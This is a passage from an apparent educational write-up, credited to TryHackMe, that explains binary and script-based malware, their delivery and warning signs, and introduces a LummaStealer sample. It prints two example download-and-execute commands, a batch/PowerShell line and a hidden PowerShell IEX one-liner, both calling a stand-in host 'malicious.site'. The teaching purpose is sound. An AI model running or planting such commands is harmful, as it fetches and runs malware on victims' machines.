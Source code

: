 While script-based malware has become popular for its flexibility and ease of modification, executables remain widely used by attackers. They can offer more stability, support complex payloads, and are still effective in environments where security tools are misconfigured or outdated. Both types continue to be seen in real-world intrusions.</p>

<h3>Binary Malware</h3>
<p>Executable-based malware is typically delivered as compiled files such as <strong>.exe</strong> (<strong>Windows Executable</strong> or <strong>.dll</strong> (<strong>Dynamic Link Library</strong>. These files are created from source code and need to be run on a compatible operating system. Common delivery methods for binaries include email attachments (for example, invoice.pdf.exe), malicious downloads, removable media, or as part of another infection. Sometimes, attackers disguise executables by using misleading icons or hiding the real file extension. A way to identify an executable is through a checksum, since executables, once compiled and redistributed, do not change. For example, we can calculate the md5sum of a file and identify the malware regardless of any name or extension change. Each binary may contain hardcoded strings or byte sequences that can serve as unique identifiers. These are commonly used by antivirus and detection engines.</p>

<h3>Script-based Malware</h3>
<p>Script-based malware relies on scripts written in languages such as <strong>JavaScript</strong> (.js), <strong>Visual Basic Script</strong> (.vbs), <strong>Windows batch</strong> (.bat), or <strong>PowerShell</strong> (.ps1). Scripts can be easier for attackers to change and adapt. They often arrive as email attachments, within Office documents containing macros, or through malicious websites. For example, a user might open an email attachment called report.docm, which contains a macro that runs a hidden PowerShell script. Scripts are also popular for initial access, allowing an attacker to run code directly in memory without writing files to disk.</p>

<p>There are some clear warning signs that a script may be acting maliciously:<br>

- The script downloads or runs other files from the internet.<br>
- It makes changes to system settings or disables security tools.<br>
- It runs commands that are not usually part of standard operation, especially with encoded or obfuscated content.<br>
- The script unexpectedly launches other applications, such as PowerShell or CMD.</p>

<p>For example, below we can find an example of an unobfuscated bat script-based malware:<br>
<code>@echo off powershell -Command "Invoke-WebRequest http://malicious.site/payload.exe -OutFile C:\Users\Public\payload.exe" start C:\Users\Public\payload.exe</code></p>

<p>The script above downloads a malware executable and runs it on the victim’s machine. Similarly, we can find a similar example to this one in <strong>PowerShell</strong>:<br>
<code>powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"</code></p>

<p>The above runs a script from a remote server, often without leaving files behind.</p>

<h3>Script-based Example</h3>
<p>Let's now observe an obfuscated real malware. In this case, this example corresponds to the <strong>LummaStealer</strong>, a popular stealer coded in <strong>C</strong> that is being used as a <strong>MaaS</strong> (malware as a service). This example is from <strong>August 2025</strong>, and it's a sample used to deliver the malware.<br>

As we can observe, there's a lot of data if we scroll down. A function is declared <code>Swvldsp2195</code>, and then a huge variable full of data named <code>qble51</code></p>

<h6 align="center"><img width="700px" src="https://github.com/user-attachments/assets/5d18282a-297c-44db-aff4-78612666becb"><br>This image and all the theoretical content of the present article is TryHackMe´s property.</h6>
